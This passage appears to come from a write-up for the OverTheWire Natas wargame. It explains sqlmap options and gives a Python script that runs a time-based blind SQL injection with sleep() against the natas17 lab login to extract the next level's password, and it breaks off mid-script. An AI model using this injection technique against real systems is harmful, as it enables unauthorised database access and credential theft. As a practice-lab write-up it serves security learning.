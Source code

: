 Here's a breakdown on each option:
```
-u              URL
--auth-type     HTTP authentication
--auth-cred     HTTP authentication credentials (name:password)
--data          Data string to be sent
--level         Number of checks to be performed. 
                Range is 1 to 5. Default is 1.
--risk          Types of payloads to use. Higher numbers could cause problems for the server. 
                Range is 1 to 3.  Default is 1.
--technique     T is for Time-based attacks
--threads       Max number of concurrent HTTP(s) requests
--dbms          DataBase Management System 
-D              Database name        
-T              Table name
-C              Column name(s)
--dump          Dump DBMS database table entries
--batch         Never ask for user input, use the default behaviour
```

### Python
Unlike sqlmap, this script will not determine if the sleep time is too short. In my limited testing, I've received a response to my queries in 0.125 seconds. I'm going to use 1 second as my sleep timer. Depending on your internet connection, you may need to increase the sleep time. You'll need to supply the current level password in order to run the script.

Script Performance:
```
Filtering characters completed in 5.85 seconds
Password search completed in 49.35 seconds

Completed in 55.2 seconds
```

Here's the script.
```python
#!/usr/bin/env python
import time
import string
import requests
from requests.auth import HTTPBasicAuth
import concurrent.futures


start_script = time.perf_counter()
all_chars = list(string.ascii_uppercase + string.ascii_lowercase + string.digits)
natas17_password = "8------------------------------w"  # Password for the current level
natas18_password = ""  # Buffer for the next level password
filtered_chars = ""
sleep_time = 1  # how many seconds of sleep to use in timing attack


def get_chars(char):
    data = {'username': 'natas18" and password LIKE BINARY "%' + char + '%" and sleep(' + str(sleep_time) + ') #'}

    attack_start = time.perf_counter()
    req = requests.post('http://natas17.natas.labs.overthewire.org/index.php?debug',
                        auth=HTTPBasicAuth('natas17', natas17_password), data=data)
    attack_end = time.perf_counter()
    attack_time = round(attack_end - attack_start, 2)

    if attack_time > 1:
        return char
    else:
```